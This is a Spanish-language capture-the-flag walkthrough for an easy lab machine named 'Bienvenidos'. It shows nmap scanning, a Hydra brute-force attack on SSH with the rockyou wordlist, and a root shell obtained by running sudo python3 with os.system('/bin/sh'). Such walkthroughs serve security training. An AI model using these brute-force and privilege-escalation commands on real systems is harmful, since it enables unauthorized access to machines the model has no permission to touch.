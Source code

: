 ```yaml
---
description: '✍️ Autor: beafn28🔍 Dificultad: Fácil 📅 Fecha de creación: 29/09/2024'
---
```


# Bienvenidos

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../.gitbook/assets/imagen (12).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../.gitbook/assets/imagen (13).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../.gitbook/assets/imagen (14).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web nos da la bienvenida Beatriz a la plataforma [Root Acces](https://rootacc.es/index.php?sid=585994e8f11ab449e8ccbd8e65e13a59). Descubrimos que **Beatriz** puede ser un usuario y tiene sentido ya que es la que crea los CTF.

<figure><img src="../.gitbook/assets/imagen (55).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l beatriz -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **172.17.0.2**.

<figure><img src="../.gitbook/assets/imagen (18).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **beatriz**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh beatriz@172.17.0.2
```

<figure><img src="../.gitbook/assets/imagen (16).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../.gitbook/assets/imagen (19).png" alt=""><figcaption></figcaption></figure>

Se ha identificado que podemos ejecutar `/usr/bin/python3` con permisos de `sudo`. Para escalar privilegios, utilizaremos [GTFObins](https://gtfobins.github.io/gtfobins/python/), que proporciona una lista de comandos que se pueden ejecutar utilizando Python.

Esto nos permitirá aprovechar el entorno de Python para ejecutar código que nos ayude a obtener acceso a niveles más altos de privilegio en el sistema.

```bash
sudo python3 -c 'import os; os.system("/bin/sh")'
```

<figure><img src="../.gitbook/assets/imagen (20).png" alt=""><figcaption></figcaption></figure>

Ya somos **root** por lo que ahora encontraremos la bandera en su directorio.

<figure><img src="../.gitbook/assets/imagen (56).png" alt=""><figcaption></figcaption></figure>

Esta bandera está codificada en base64 la decodificamos con este comando:

```bash
echo "aHR0cHM6Ly9yb290YWNjLmVzCg==" | base64 --decode
```

<figure><img src="../.gitbook/assets/imagen (57).png" alt=""><figcaption></figcaption></figure>
